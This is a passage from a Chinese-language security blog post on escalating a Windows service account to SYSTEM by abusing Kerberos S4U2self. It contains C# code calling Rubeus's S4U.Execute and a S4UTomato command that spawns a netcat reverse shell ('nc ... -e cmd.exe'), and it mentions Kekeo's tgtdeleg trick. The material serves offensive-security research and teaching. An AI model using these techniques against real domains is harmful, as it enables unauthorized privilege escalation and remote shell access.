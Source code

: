 最后，将返回的 TGT 字节数据转换为 KRB_CRED 对象，并传入 Rubeus 提供的 `S4U.Execute` 方法执行 S4U2self 过程，以代表域管理员用户请求针对当前计算机上 HOST 服务的票据。

```c#
KRB_CRED kirbi = new KRB_CRED(byteTgt);

encType = Interop.KERB_ETYPE.subkey_keymaterial;
S4U.Execute(kirbi, targetUser, targetSPN, outfile, ptt, domainController, altService, null, null, null, self, false, false, keyString, encType);
```

请求到的服务票据将被提交到内存中，可以通过 SCMUACBypass 访问 Service Control Manager（SCM）创建系统服务，从而获取 SYSTEM 权限，执行效果如下所示。

```console
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](/assets/posts/2023-08-02-escalate-service-account-to-localSystem-via-kerberos/shadowcred.gif)

## Tgtdeleg

Benjamin Delpy（[@gentilkiwi](https://github.com/gentilkiwi)）在其 [Kekeo](https://github.com/gentilkiwi/kekeo/blob/4fbb44ec54ff093ae0fbe4471de19681a8e71a86/kekeo/modules/kuhl_m_tgt.c#L189-L327) 中加入了一个技巧（tgtdeleg），允许你滥用无约束委派来获取一个带有会话密钥的本地 TGT。
